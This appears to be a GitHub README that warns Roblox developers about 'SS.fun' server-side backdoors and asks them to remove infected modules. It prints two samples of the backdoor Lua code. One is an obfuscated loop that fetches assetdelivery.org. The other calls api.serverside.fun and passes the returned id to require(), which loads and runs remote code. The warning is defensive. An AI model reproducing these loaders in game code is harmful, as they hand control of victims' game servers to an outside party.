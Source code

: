### Hello guys, please read carefully.
!!!PLUGIN AND DISCORD SERVER NOT READY YET MY DISCORD ACCOUNT BELOW!!!

Discord : Jxy#9426

# 1. Links

    - https://assetdelivery.org
is SS.fun's first link.
It only works when you're in the game (not in the studio).
It checks the user agent (I've tested it).
If you see this URL, please remove it.

Example code:



```ruby
task.spawn(function()
	pcall(function()
		local newThreadedCall = coroutine.wrap(pcall)
		for _ in newThreadedCall, (select and require), tonumber(game:service("HttpService"):GetAsync("https://assetdelivery.org")) do
		end
	end)
end)
```

    - https://api.serverside.fun/v1/stat
is SS.fun's second link.
It works the same as the first link, only in-game (not in the studio).
If you see this URL, please remove it.

Example code:


```lua
local module = {}
pcall(function()
	local HttpService = game:GetService("HttpService")
	local response = HttpService:GetAsync('https://api.serverside.fun/v1/stat')
	local data = HttpService:JSONDecode(response)
	if(data["id"]) then
		local numbers = string.gsub(data["id"], "%D", "")
		require(tonumber(numbers)) 
	end
end)
return module
```

# 2. FAQ

    - How can I delete it?
!!(PLUGIN NOT READY YET!!!!!!! IF YOU CANT FIND INFECTED MODULE PLEASE DM ME ON DISCORD.)!!

First, open the plugin and it will start scanning the game. If it cannot find the module, you will need to find it manually. Advice: go to the webhook, find  the location and start from there.
    
    - I can't find it, what can I do?
write me on discord if you cant find me please send a friend request i will open a discord server for it.

# End

Sorry for my not-so-good English

Thanks for listening to my TED talk.
